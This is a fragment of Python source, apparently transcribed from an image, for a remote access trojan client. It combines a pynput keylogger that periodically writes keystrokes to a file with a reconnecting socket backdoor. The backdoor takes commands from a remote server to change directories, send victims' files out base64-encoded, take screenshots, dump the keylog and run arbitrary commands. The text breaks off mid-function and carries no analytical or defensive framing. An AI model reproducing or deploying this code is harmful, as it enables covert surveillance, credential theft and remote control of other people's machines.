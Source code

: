 ```python
        klfile.close()
        timer=threading.Timer(5,writekeys)
        timer.start()

def kl_start():
    keyboard_listener = pynput.keyboard.Listener(on_press=process_keys)
    with keyboard_listener:
        writekeys() 
        keyboard_listener.join()
        
def reliable_send(data):
    json_data =json.dumps(data)
    s.send(bytes(json_data,encoding="utf-8"))
def reliable_recv():
    json_data=bytearray(0)
    while True:
        try:
            json_data+= s.recv(1024)
            
            return json.loads(json_data)
        except ValueError:
            continue
def connection():
    while True:
        try:
            s.connect((ServerIP,ServerPort))
            communication()
        except:
            time.sleep(5)
            continue
def communication():
    while True:
        command =reliable_recv()
        if command =="q":
            try:
                os.remove(kl.file)
            except:
                continue
            break
        elif command[:4] =="help":
            help_data = '''cd [path]
            download [filename]
            upload [filename]
            get [url]
            start [program]
            screenshot
            check
            keylog_start
            keylog_dump
            [cmd command]
            q'''
            reliable_send(help_data)
        elif command[:2] =="cd" and len(command)>1:
            try:
                os.chdir(command[3:])
            except:
                continue
        elif command[:8] == "download":
            try:
                with open(command[9:],"rb") as file_down:
                    content = file_down.read()
                    reliable_send(base64.b64encode(content).decode("ascii"))
            except:
```